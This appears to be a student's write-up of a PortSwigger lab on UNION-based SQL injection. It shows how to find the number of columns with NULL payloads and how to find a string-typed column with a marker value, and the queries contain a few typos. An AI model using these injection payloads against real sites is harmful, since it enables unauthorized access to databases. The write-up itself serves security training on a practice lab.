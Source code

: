 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made --

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```
Added "UNION NULL" to the request to determine the number of columns used in the query.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.

We need to use the UNION SELECT payload  using 3 NULL values. Try thetring value *JK9WNI* in one NULL value to see if it returns that string. If it does , then it means the column contains string data else it is not sting data.

**JK9WNI in 1st NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'JK9WNI',NULL,NULL --
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2b13d9b4-7e05-4e44-ad65-1f556f4bf6fb)

**JK9WNI in 2st NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'JK9WNI',NULL --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4d5b00b3-7095-497b-afd2-c88bfd379752)



